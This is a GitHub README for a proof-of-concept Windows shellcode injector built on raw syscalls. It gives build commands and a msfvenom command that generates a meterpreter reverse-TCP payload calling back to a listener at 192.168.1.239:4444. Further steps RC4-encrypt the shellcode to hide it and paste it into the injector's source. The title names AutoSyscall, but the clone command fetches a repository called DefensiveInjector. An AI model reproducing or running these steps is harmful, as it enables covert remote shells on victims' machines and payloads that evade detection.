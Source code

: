 # AutoSyscall

This library builds and makes a shellcode injector for all versions of Windows using raw syscalls.

This code is a PoC and has only been tested windows 10 x64 version 1909, this is because of the syscall numbers changing between versions, the values can be found [here](https://j00ru.vexillium.org/syscalls/nt/64/).

## Install & Build

```
git clone https://github.com/bats3c/DefensiveInjector
cd DefensiveInjector
python generate.py
make _XP_SP2
```
The _XP_SP2 value is the define string for the shellcode.asm file, this will target specific versions of windows.

## Using different shellcode

- ##### Generate your shellcode either with msfvenom or something else
    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.239 LPORT=4444 -f raw -o meter.bin`

- ##### Encrypt the shellcode
    Keeping in mind that if you change it here you will need to update the key on line 132 in `main.c`
    `cat meter.bin | openssl enc -rc4 -nosalt -k "HideMyShellzPlz?" > encmeter.bin`

- ##### Format the shellcode
    Run `xxd -i encmeter.bin` then replace everything between line 10-60 with the output

## Dependencies

```
sudo apt install mingw-w64 nasm python
```

